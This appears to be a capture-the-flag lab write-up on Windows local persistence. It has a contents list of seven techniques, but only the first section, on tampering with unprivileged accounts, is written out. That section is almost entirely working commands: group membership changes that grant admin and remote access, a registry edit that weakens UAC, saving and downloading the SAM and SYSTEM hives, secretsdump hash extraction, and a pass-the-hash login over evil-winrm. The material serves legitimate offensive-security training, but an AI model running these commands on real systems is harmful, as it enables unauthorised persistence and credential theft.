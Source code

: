 # Windows Local Persistence - Medium

1. [Tampering with Unprivileged Accounts](#tampering-with-unprivileged-accounts)
2. [Backdooring Files](#backdooring-files)
3. [Abusing Services](#abusing-services)
4. [Abusing Scheduled Tasks](#abusing-scheduled-tasks)
5. [Logon Triggered Persistence](#logon-triggered-persistence)
6. [Backdooring the Login Screen / RDP](#backdooring-the-login-screen--rdp)
7. [Persisting Through Existing Services](#persisting-through-existing-services)

## Tampering with Unprivileged Accounts

* Persistence - creating alternative ways to regain access to a host without going through exploitation all over again.

* Tampering with unprivileged users makes it harder for the blue teams to detect activity.

* Assign Group Memberships:

```cmd
#assuming we have dumped hashes in victim machine
#and acquired passwords of unprivileged users

#add unprivileged user to Administrators group for admin privileges
net localgroup administrators thmuser0 /add
```

```cmd
#we can also use Backup Operators group
net localgroup "Backup Operators" thmuser1 /add

#now we need it to add it to RDP or WinRM groups
net localgroup "Remote Management Users" thmuser1 /add

#disable LocalAccountTokenFilterPolicy of UAC to get admin privileges
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

#given, creds for WinRM are thmuser1:Password321
#WinRM connection from attacker machine
evil-winrm -i 10.10.113.252 -u thmuser1 -p Password321

#gives Admin access
whoami /groups

#make backup of SAM and SYSTEM files and download them
reg save hklm\system system.bak

reg save hklm\sam sam.bak

download system.bak

download sam.bak

#dump password hashes in attacker machine
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

#perform pass-the-hash to get Admin privileges in target machine
evil-winrm -i 10.10.113.252 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

cd C:\flags

.\flag1.exe
```
